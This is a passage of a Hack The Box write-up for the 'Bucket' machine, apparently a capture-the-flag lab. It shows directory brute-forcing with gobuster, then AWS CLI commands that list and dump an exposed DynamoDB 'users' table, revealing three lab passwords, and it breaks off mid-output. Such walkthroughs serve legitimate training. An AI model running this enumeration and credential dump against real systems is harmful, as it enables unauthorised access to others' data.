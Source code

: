 11. So now, let's try and enumerate again to see what else we can find. I ran gobuster again but this time I ran it on the s3 subdomain.

    ```
    gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://s3.bucket.htb/
    ```

    I also ran ffuf at the same time as this. Its just a habit now.

    Found these two directories

    ```
    health
    shell
    ```

12. From the browser, going into this directories I quickly saw that bucket is attacked to a service called DynamoDB.
    ```
    ┌──(schoon3r㉿nexer)-[~/HTB/212-Bucket]
    └─$ curl http://s3.bucket.htb/health
    {"services": {"s3": "running", "dynamodb": "running"}}`
    ```
13. As I mentioned, I sort of know a little about AWS already and know how to interact with RDS of AWS. So first thing I did is list the table inside the dynamodb
    ```
    ┌──(schoon3r㉿nexer)-[~/HTB/212-Bucket]
    └─$ aws --endpoint-url http://s3.bucket.htb --region us-east-1 dynamodb list-tables
    {
        "TableNames": [
            "users"
        ]
    }
    ```
14. Boom we have users table. Let's scan what's inside
    ```
    ┌──(schoon3r㉿nexer)-[~/HTB/212-Bucket]
    └─$ aws --endpoint-url http://s3.bucket.htb --region us-east-1 dynamodb scan --table-name users                                                         2 ⨯
    {
        "Items": [
            {
                "password": {
                    "S": "Management@#1@#"
                },
                "username": {
                    "S": "Mgmt"
                }
            },
            {
                "password": {
                    "S": "Welcome123!"
                },
                "username": {
                    "S": "Cloudadm"
                }
            },
            {
                "password": {
                    "S": "n2vM-<_K_Q:.Aa2"
                },
                "username": {
                    "S": "Sysadm"
                }
            }